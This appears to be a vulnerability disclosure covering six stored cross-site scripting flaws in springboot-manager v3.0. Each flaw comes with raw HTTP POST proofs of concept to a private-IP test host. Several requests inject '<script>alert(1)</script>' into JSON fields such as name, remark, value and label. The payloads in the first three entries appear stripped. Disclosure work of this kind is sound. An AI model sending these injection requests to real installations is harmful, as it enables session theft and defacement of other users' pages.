



BUG_Author

Longlong Gong

# Project

Address: 

github:[springboot-manager](https://github.com/aitangbao/springboot-manager)

gitee:[springboot-manager](https://gitee.com/zwens/springboot-manager)

## Stored cross-site scripting

### 1.1 `/sys/permission` Stored cross-site scripting

[Affected version]

v3.0


[Affected Component]

/sys/permission


[Software]

https://gitee.com/zwens/springboot-manager/repository/archive/v3.0


[Description]

The spring-manager system v3.0 has a stored XSS vulnerability in the `/sys/permission` interface. The parameter name has not been properly handled. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks.

POC

```
POST /manager/sys/permission HTTP/1.1
Host: 192.168.1.184:8081
Content-Length: 194
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.1.184:8081
Referer: http://192.168.1.184:8081/manager/index/menus
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0592A0FE99DCA290FBC248D5D091B650; satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658
Connection: keep-alive

{"id":"","pid":"0","type":"1","name":"","pidName":"默认顶级菜单","url":"","target":"_self","perms":"","icon":"layui-icon-rate-half","orderNum":"1","status":"0"}
```

Organisational management -> Menu permission management -> Menu name, inject payload, \


### 1.2 `/sys/dept` Stored cross-site scripting

[Affected version]

v3.0


[Affected Component]

/sys/dept


[Software]

https://gitee.com/zwens/springboot-manager/repository/archive/v3.0


[Description]

The spring-manager system v3.0 has a stored XSS vulnerability in the `/sys/dept` interface. The parameter name has not been properly handled. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks.

POC

```
POST /manager/sys/dept HTTP/1.1
Host: 192.168.1.184:8081
Content-Length: 151
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.1.184:8081
Referer: http://192.168.1.184:8081/manager/index/depts
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0592A0FE99DCA290FBC248D5D091B650; satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658
Connection: keep-alive

{"id":"","pid":"0","name":"","pidName":"默认顶级部门","managerName":"18888888888","phone":"18888888888","status":"0"}
```

Organisational management -> Department management -> Add new, department name inject payload, \




### 1.3 `/sysFiles/upload` Stored cross-site scripting

[Affected version]

v3.0


[Affected Component]

/sysFiles/upload


[Software]

https://gitee.com/zwens/springboot-manager/repository/archive/v3.0


[Description]

The spring-manager system v3.0 has a stored XSS vulnerability in the `/sysFiles/upload` interface. The parameter name has not been properly handled. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks.

POC

```
POST /manager/sysFiles/upload HTTP/1.1
Host: 192.168.1.184:8081
Content-Length: 212
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8QlVhbN3eIw5KKQb
Origin: http://192.168.1.184:8081
Referer: http://192.168.1.184:8081/manager/index/sysFiles
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0592A0FE99DCA290FBC248D5D091B650; satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658
Connection: keep-alive

------WebKitFormBoundary8QlVhbN3eIw5KKQb
Content-Disposition: form-data; name="file"; filename=".jpg"
Content-Type: image/jpeg

123456
------WebKitFormBoundary8QlVhbN3eIw5KKQb--

```

System Management -> File Management -> Upload File, file name inject payload, \.jpg


### 1.4 `/sysDict/add` Stored cross-site scripting

[Affected version]

v3.0


[Affected Component]

/sysDict/add


[Software]

https://gitee.com/zwens/springboot-manager/repository/archive/v3.0


[Description]

The spring-manager system v3.0 has a stored XSS vulnerability in the `/sysDict/add` interface. The parameter name has not been properly handled. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks.

POC

```
POST /manager/sysDict/add HTTP/1.1
Host: 192.168.1.184:8081
Content-Length: 56
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.1.184:8081
Referer: http://192.168.1.184:8081/manager/index/sysDict
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0592A0FE99DCA290FBC248D5D091B650; satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658
Connection: keep-alive

{"id":"","name":"<script>alert(1)</script>","remark":""}
```

System Management -> Dictionary Management -> Add, inject payload in remarks or name, \<script>alert(1)\</script>


### 1.5 `/sysJob/add` Stored cross-site scripting

[Affected version]

v3.0


[Affected Component]

/sysJob/add


[Software]

https://gitee.com/zwens/springboot-manager/repository/archive/v3.0


[Description]

The spring-manager system v3.0 has a stored XSS vulnerability in the `/sysJob/add` interface. The parameter name has not been properly handled. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks.

POC

```
POST /manager/sysJob/add HTTP/1.1
Host: 192.168.1.184:8081
Content-Length: 114
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.1.184:8081
Referer: http://192.168.1.184:8081/manager/index/sysJob
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0592A0FE99DCA290FBC248D5D091B650; satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658
Connection: keep-alive

{"id":"","beanName":"testTask","params":"1","cronExpression":"0 */1 * * * ?","remark":"<script>alert(1)</script>"}
```

System Management -> Scheduled Tasks -> Add, note inject payload, \<script>alert(1)\</script>




### 1.6 `/sysDictDetail/add` Stored cross-site scripting

[Affected version]

v3.0


[Affected Component]

/sysDictDetail/add


[Software]

https://gitee.com/zwens/springboot-manager/repository/archive/v3.0


[Description]

The spring-manager system v3.0 has a stored XSS vulnerability in the `/sysDictDetail/add` interface. The parameter name has not been properly handled. Hackers can exploit this vulnerability to obtain cookies, conduct phishing attacks, and carry out worm attacks.

POC

```
POST /manager/sysDictDetail/add HTTP/1.1
Host: 192.168.1.184:8081
Content-Length: 122
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.1.184:8081
Referer: http://192.168.1.184:8081/manager/index/sysDict
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0592A0FE99DCA290FBC248D5D091B650; satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658
Connection: keep-alive

{"id":"","dictId":"1255790029680242691","value":"<script>alert(1)</script>","label":"<script>alert(1)</script>","sort":""}
```

System Management -> Dictionary Management -> Select a dictionary on the left, click add on the right, inject payload into the dictionary value and dictionary label, \<script>alert(1)\</script>





